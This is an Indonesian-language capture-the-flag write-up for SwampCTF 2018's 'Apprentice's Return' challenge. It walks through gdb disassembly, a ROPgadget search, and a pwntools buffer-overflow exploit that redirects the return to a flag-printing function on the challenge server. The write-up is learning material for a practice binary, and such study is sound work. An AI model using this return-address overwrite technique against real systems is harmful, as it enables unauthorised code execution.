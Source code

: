 # Apprentice's Return

SwampCTF Sauce : https://fadec0d3.blogspot.co.id/2018/04/swampctf-2018-apprentices-return.html
```"For one such as yourself, apprentice to the arts of time manipulation, you must pass this first trial with a dreadful creature."```
```nc chal1.swampctf.com 1802```
File Sauce : ```https://github.com/vitapluvia/writeups/raw/master/swampCTF2018/apprentices-return/return```

Diberi sebuah binary, pertama-tama kita akan jalankan terlebih dahulu:
```
blaccmail@localhost:~/Downloads$ ./return 
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 
aaaaa   

Oh no! Your actions are completely ineffective! The allip approaches and as it nears, you feel its musty breath and are paralyzed with fear. It gently caresses your cheek, and you turn and flee the dungeon, leaving the battle to be fought another day...
```
program kemudian akan meminta inputan string, lalu merepy denan sesuatu

sekarang coba kita buka dengan gdb dan lihat function yang ada:
```
(gdb) info functions
----------------------------
0x080484fb  doBattle
0x08048597  main
0x080485db  slayTheBeast
---------------------------
```

Terdapat 3 function dalam program ini mari kita cek ```main()``` terlebih dahulu :
```
(gdb) disass main
Dump of assembler code for function main:
   0x08048597 <+0>:	lea    ecx,[esp+0x4]
   0x0804859b <+4>:	and    esp,0xfffffff0
   0x0804859e <+7>:	push   DWORD PTR [ecx-0x4]
   0x080485a1 <+10>:	push   ebp
   0x080485a2 <+11>:	mov    ebp,esp
   0x080485a4 <+13>:	push   ecx
   0x080485a5 <+14>:	sub    esp,0x4
   #--------------------------------------------------#
   0x080485a8 <+17>:	call   0x80484fb <doBattle>    
   #--------------------------------------------------#
   0x080485ad <+22>:	sub    esp,0xc
   0x080485b0 <+25>:	push   0x80488f4
   0x080485b5 <+30>:	call   0x80483b0 <puts@plt>
   0x080485ba <+35>:	add    esp,0x10
   0x080485bd <+38>:	mov    eax,ds:0x804a02c
   0x080485c2 <+43>:	sub    esp,0xc
   0x080485c5 <+46>:	push   eax
   0x080485c6 <+47>:	call   0x80483a0 <fflush@plt>
   0x080485cb <+52>:	add    esp,0x10
   0x080485ce <+55>:	mov    eax,0x0
   0x080485d3 <+60>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080485d6 <+63>:	leave  
   0x080485d7 <+64>:	lea    esp,[ecx-0x4]
   0x080485da <+67>:	ret    
End of assembler dump.
```

Dari disassembly diatas, program akan memanggil function doBattle
```
(gdb) disass doBattle 
Dump of assembler code for function doBattle:
   0x080484fb <+0>:	push   ebp
   0x080484fc <+1>:	mov    ebp,esp
   0x080484fe <+3>:	sub    esp,0x28
   0x08048501 <+6>:	sub    esp,0xc
   0x08048504 <+9>:	push   0x80486b0
   0x08048509 <+14>:	call   0x80483b0 <puts@plt>
   0x0804850e <+19>:	add    esp,0x10
   0x08048511 <+22>:	mov    eax,ds:0x804a02c
   0x08048516 <+27>:	sub    esp,0xc
   0x08048519 <+30>:	push   eax
   0x0804851a <+31>:	call   0x80483a0 <fflush@plt>
   0x0804851f <+36>:	add    esp,0x10
   0x08048522 <+39>:	sub    esp,0x4
   0x08048525 <+42>:	push   0x32
   0x08048527 <+44>:	lea    eax,[ebp-0x26]
   0x0804852a <+47>:	push   eax
   0x0804852b <+48>:	push   0x0
   0x0804852d <+50>:	call   0x8048390 <read@plt>
   0x08048532 <+55>:	add    esp,0x10
   0x08048535 <+58>:	lea    eax,[ebp-0x26]
   0x08048538 <+61>:	add    eax,0x2a
   0x0804853b <+64>:	mov    eax,DWORD PTR [eax]
   0x0804853d <+66>:	mov    edx,eax
   #-----------------------------------------------------
   0x0804853f <+68>:	mov    eax,0x8048595
   0x08048544 <+73>:	cmp    edx,eax
   0x08048546 <+75>:	jbe    0x8048573 <doBattle+120>
   #-----------------------------------------------------
   0x08048548 <+77>:	sub    esp,0xc
   0x0804854b <+80>:	push   0x804874c
   0x08048550 <+85>:	call   0x80483b0 <puts@plt>
   0x08048555 <+90>:	add    esp,0x10
   0x08048558 <+93>:	mov    eax,ds:0x804a02c
   0x0804855d <+98>:	sub    esp,0xc
   0x08048560 <+101>:	push   eax
   0x08048561 <+102>:	call   0x80483a0 <fflush@plt>
   0x08048566 <+107>:	add    esp,0x10
   0x08048569 <+110>:	sub    esp,0xc
   0x0804856c <+113>:	push   0x0
   0x0804856e <+115>:	call   0x80483d0 <exit@plt>
   0x08048573 <+120>:	sub    esp,0xc
   0x08048576 <+123>:	push   0x804884c
   0x0804857b <+128>:	call   0x80483b0 <puts@plt>
   0x08048580 <+133>:	add    esp,0x10
   0x08048583 <+136>:	mov    eax,ds:0x804a02c
   0x08048588 <+141>:	sub    esp,0xc
   0x0804858b <+144>:	push   eax
   0x0804858c <+145>:	call   0x80483a0 <fflush@plt>
   0x08048591 <+150>:	add    esp,0x10
   0x08048594 <+153>:	nop
   0x08048595 <+154>:	leave  
   0x08048596 <+155>:	ret    
End of assembler dump.
```

Dari disasembly diatas dapat kita ketahui, program akan meminta inputan string degan size buffer-nya 50 bit.
```
   0x0804853f <+68>:	mov    eax,0x8048595
   0x08048544 <+73>:	cmp    edx,eax
   0x08048546 <+75>:	jbe    0x8048573 <doBattle+120>
```
kemudian program akan meng-compare ke alamat ```0x8048595``` yang menunjuk ke instruksi ```leave``` di function itu sendiri, lalu ```jbe``` akan mengecek apabila alamat yang akan di comparenya ```0x8048573``` lebih kecil atau sama dengan ```0x8048595```.
  
  Dari sini dapat disimpulkan, metode yang akan kita lakuakan adalah BoF + ROPChain, dan instruksi diatas akan jadi gadget pertama kita. Namun apa yang ada didalam ```slayTheBeast()``` ?. Berikut disass-nya :
  ```
  (gdb) disass slayTheBeast 
Dump of assembler code for function slayTheBeast:
   0x080485db <+0>:	push   ebp
   0x080485dc <+1>:	mov    ebp,esp
   0x080485de <+3>:	sub    esp,0x8
   0x080485e1 <+6>:	sub    esp,0xc
   0x080485e4 <+9>:	push   0x8048a00
   0x080485e9 <+14>:	call   0x80483b0 <puts@plt>
   0x080485ee <+19>:	add    esp,0x10
   0x080485f1 <+22>:	sub    esp,0xc
   0x080485f4 <+25>:	push   0x8048a84
   0x080485f9 <+30>:	call   0x80483b0 <puts@plt>
   0x080485fe <+35>:	add    esp,0x10
   0x08048601 <+38>:	mov    eax,ds:0x804a02c
   0x08048606 <+43>:	sub    esp,0xc
   0x08048609 <+46>:	push   eax
   0x0804860a <+47>:	call   0x80483a0 <fflush@plt>
   0x0804860f <+52>:	add    esp,0x10
   0x08048612 <+55>:	sub    esp,0xc
   #-----------------------------------------------------
   0x08048615 <+58>:	push   0x8048aea               <- cat flag.txt
   0x0804861a <+63>:	call   0x80483c0 <system@plt>
   #-----------------------------------------------------
   0x0804861f <+68>:	add    esp,0x10
   0x08048622 <+71>:	nop
   0x08048623 <+72>:	leave  
   0x08048624 <+73>:	ret    
End of assembler dump.
  ```
  Ternyata Function ini yang membaca flagnya, nah sekarang bagaimana caranya function ini dapat dipanggil. Gadget pertama membutuhkan syarat ```cmp``` dengan perbandingan alamat dibawah atau sama dengan ```0x8048595```, namun function ```slayTheBeast()``` diawali dengan alamat value yang lebih besar dari yang diminta sehingga kita tidak bisa lompat mentah-mentah, terpaksa kita harus mencari gadget lain.

Kali ini kita akan menggunakan tuls ROPgadget :
```
blaccmail@localhost:~/Downloads$ ROPgadget --binary return
Gadgets information
============================================================
0x08048c15 : adc al, 0x41 ; ret
0x080484ee : adc al, 0x50 ; call edx
0x0804845d : adc al, 0x68 ; sub al, 0xa0 ; add al, 8 ; call eax
0x08048496 : adc byte ptr [eax + 0x68], dl ; sub al, 0xa0 ; add al, 8 ; call edx
0x08048467 : adc cl, cl ; ret
......
0x0804835a : ret
0x08048545 : ret 0x2b76
0x0804853e : ret 0x95b8
0x0804847e : ret 0xeac1
0x080485ea : ret 0xfffd
......
```
Nah!, kita akan menggunakan yang ```0x0804835a``` karena memenuhi kriteria dan instruksinya lebih mulus!.

Langsung saja kita buat exploitnya :
```
from pwn import *

payload = "a"*(42)
payload += p32(0x0804835a)
payload += p32(0x080485db)

print payload
```


Test di mesin lokal :
```
blaccmail@localhost:~/Downloads$ python lamia.py | ./return
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
Through expert manouvering of both body and mind, you lash out with your ethereal blade and pierce the beast's heart, slaying it.
As it shimmers and withers, you quickly remember to lean in and command it to relinquish its secret: 
cat: flag.txt: No such file or directory
Segmentation fault
```


Nice!!, sekarang di mesin aslinya :
```
#Exploit
from pwn import *

conn = remote('chal1.swampctf.com', 1802)
print conn.recv(2048)

payload = "a"*(42)
payload += p32(0x0804835a)
payload += p32(0x080485db)

conn.send(payload)
conn.interactive()
```


```
blaccmail@localhost:~/Downloads$ python lamia.py
[+] Opening connection to chal1.swampctf.com on port 1802: Done
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 

[*] Switching to interactive mode
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
Through expert manouvering of both body and mind, you lash out with your ethereal blade and pierce the beast's heart, slaying it.
As it shimmers and withers, you quickly remember to lean in and command it to relinquish its secret: 
flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
[*] Got EOF while reading in interactive
$  
```

# ( ͡° ͜ʖ ͡°) flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
